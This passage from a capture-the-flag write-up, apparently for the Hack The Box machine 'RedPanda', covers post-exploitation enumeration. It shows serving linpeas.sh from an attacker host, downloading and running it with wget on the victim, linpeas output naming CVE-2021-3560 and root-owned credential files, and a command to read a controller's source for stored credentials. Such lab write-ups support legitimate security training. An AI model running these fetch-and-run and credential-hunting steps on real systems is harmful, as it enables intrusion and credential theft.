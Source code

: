 ```bash
woodenk@redpanda $
```

#### Scan for privilege escalations

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/linpeas.sh
	chmod +x linpeas.sh
	./linpeas.sh

```text
<...SNIP...>
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.31                                                                                                                                                                                                                         

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

root         /usr/sbin/cron -f
root            /usr/sbin/CRON -f
root                /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root                    sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk                     java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

╔══════════╣ Unexpected in root
/credits

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root logs 422 Jun 21 12:31 /credits/damian_creds.xml                                                                                                                                                                           
-rw-r----- 1 root logs 426 Aug 28 22:30 /credits/woodenk_creds.xml
-rw-r----- 1 root woodenk 33 Aug 28 22:15 /home/woodenk/user.txt
<...SNIP...>
```

#### Find stored credentials (MainController.java)

	cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java

```java
package com.panda_search.htb.panda_search;

import java.util.ArrayList;
import java.io.IOException;
import java.sql.*;
import java.util.List;
import java.util.ArrayList;
import java.io.File;
import java.io.InputStream;
import java.io.FileInputStream;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
```